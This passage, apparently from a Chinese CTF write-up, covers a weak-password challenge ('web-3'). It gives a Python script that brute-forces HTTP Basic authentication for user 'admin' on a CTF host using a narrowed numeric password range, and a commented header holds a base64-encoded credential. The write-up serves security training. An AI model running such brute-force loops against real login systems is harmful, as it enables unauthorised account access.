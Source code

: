 ![这次在请求头里](./web-2-1.png)

## web-3 爆破弱口令

6位密码很慢，花1积分买个hint，难度立即降低。

爆破代码

```python
import requests

url = "https://httpbasic-ctfd.dun.mi.com/"

payload = {}
headers = {
    'authority': 'httpbasic-ctfd.dun.mi.com',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'zh-CN,zh;q=0.9,en;q=0.8',
    # 'authorization': 'Basic YWRtaW46OTg3NjU0',
    'cache-control': 'max-age=0',
    'cookie': 'xx', # TODO 赋值cookie
    'sec-ch-ua': '"Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': '"macOS"',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'
}

username = 'admin'
for passwd in range(300, 999):
    passwd_str = "{0:06d}".format(passwd * 1000 + 672)
    response = requests.request("GET", url, headers=headers, data=payload, auth=(username, passwd_str))

    print(passwd_str, response.status_code)
```